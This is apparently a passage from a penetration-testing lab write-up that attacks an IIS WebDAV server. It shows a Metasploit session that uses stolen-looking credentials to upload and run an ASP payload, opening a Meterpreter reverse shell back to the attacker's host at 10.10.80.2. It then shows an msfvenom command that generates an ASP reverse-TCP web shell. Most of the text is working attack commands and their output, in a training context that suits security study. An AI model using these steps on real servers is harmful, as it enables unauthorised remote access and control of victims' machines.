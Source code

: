```bash
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     10.10.80.2       yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic


msf6 exploit(windows/iis/iis_webdav_upload_asp) > set HttpUsername bob
HttpUsername => bob
msf6 exploit(windows/iis/iis_webdav_upload_asp) > set HttpPassword password_123321
HttpPassword => password_123321
msf6 exploit(windows/iis/iis_webdav_upload_asp) > set RHOSTS 10.4.23.46
RHOSTS => 10.4.23.46
msf6 exploit(windows/iis/iis_webdav_upload_asp) > run

[*] Started reverse TCP handler on 10.10.80.2:4444 
[*] Checking /metasploit219740735.asp
[*] Uploading 612521 bytes to /metasploit219740735.txt...
[-] Upload failed on /metasploit219740735.txt [401 Unauthorized]
[*] Exploit completed, but no session was created.
msf6 exploit(windows/iis/iis_webdav_upload_asp) > set PATH /webdav/metasploit%RAND%.asp
PATH => /webdav/metasploit%RAND%.asp
msf6 exploit(windows/iis/iis_webdav_upload_asp) > run

[*] Started reverse TCP handler on 10.10.80.2:4444 
[*] Checking /webdav/metasploit162025281.asp
[*] Uploading 609318 bytes to /webdav/metasploit162025281.txt...
[*] Moving /webdav/metasploit162025281.txt to /webdav/metasploit162025281.asp...
[*] Executing /webdav/metasploit162025281.asp...
[*] Deleting /webdav/metasploit162025281.asp (this doesn't always work)...
[*] Sending stage (175174 bytes) to 10.4.23.46
[*] Meterpreter session 1 opened (10.10.80.2:4444 -> 10.4.23.46:49800) at 2024-01-13 20:50:25 +0530

meterpreter > 

```



<br />

**Metasploit  method2: using  `msfvenom`**

```bash
root@attackdefense:~# msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.80.2 LPORT=1234 -f asp > asp_shell.asp
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 354 bytes
Final size of asp file: 38281 bytes
```
